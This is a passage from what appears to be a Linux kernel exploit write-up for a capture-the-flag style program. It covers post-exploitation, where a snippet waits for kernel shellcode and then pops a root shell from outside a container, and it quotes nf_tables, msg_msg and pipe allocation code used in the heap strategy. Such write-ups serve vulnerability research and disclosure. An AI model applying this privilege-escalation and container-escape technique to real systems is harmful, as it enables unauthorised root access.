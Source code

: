 ### 7.7 Post exploitation

In this step, the exploit process acquires root privilege and escape the namespace container, popping a root shell from outside of the container.

- [exploit/extra-refined/exploit.c#L1221](../exploit/extra-refined/exploit.c#L1221)
```c
printf("[*] now take a rest while worker make us escape!\n");
sleep(3);

post_exploit();
```
The exploit waits for a while to ensure the kernel shellcode is executed by the kernel worker. After the kernel shellcode is executed, the same `post_exploit` function from `lts_6.1.31` exploit is used to perform post-exploit works and drop a root shell to get the flag of `cos-105-17412.101.17` instance.

## 8. LTS 6.1 Mitigation Instance
For `mitigation-6.1` instance, we could apply the exactly same exploit strategy for `lts-6.1.31`, since the original strategy is not hindered by the applied mitigations.
- [net/netfilter/nf_tables_api.c:nf_tables_newset()](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/net/netfilter/nf_tables_api.c?h=linux-6.1.y&id=d2869ace6eeb8ea8a6e70e6904524c5a6456d3fb#n4494)
```c
// ...
	udlen = 0;
	if (nla[NFTA_SET_USERDATA])
		udlen = nla_len(nla[NFTA_SET_USERDATA]);

	size = 0;
	if (ops->privsize != NULL)
		size = ops->privsize(nla, &desc);
	alloc_size = sizeof(*set) + size + udlen;
	if (alloc_size < size || alloc_size > INT_MAX)
		return -ENOMEM;
	set = kvzalloc(alloc_size, GFP_KERNEL_ACCOUNT);
// ...
```
- [ipc/msgutil.c:alloc_msg()](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/ipc/msgutil.c?h=linux-6.1.y&id=d2869ace6eeb8ea8a6e70e6904524c5a6456d3fb#n46)
```c
static struct msg_msg *alloc_msg(size_t len)
{
	struct msg_msg *msg;
	struct msg_msgseg **pseg;
	size_t alen;

	alen = min(len, DATALEN_MSG);
	msg = kmalloc(sizeof(*msg) + alen, GFP_KERNEL_ACCOUNT);
// ...
		seg = kmalloc(sizeof(*seg) + alen, GFP_KERNEL_ACCOUNT);
// ...
}
```
- [fs/pipe.c:alloc_pipe_info()](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/fs/pipe.c?h=linux-6.1.y&id=d2869ace6eeb8ea8a6e70e6904524c5a6456d3fb#n782)
```c
struct pipe_inode_info *alloc_pipe_info(void)
{
	struct pipe_inode_info *pipe;
	unsigned long pipe_bufs = PIPE_DEF_BUFFERS;
// ...
	pipe->bufs = kcalloc(pipe_bufs, sizeof(struct pipe_buffer),
			     GFP_KERNEL_ACCOUNT);
```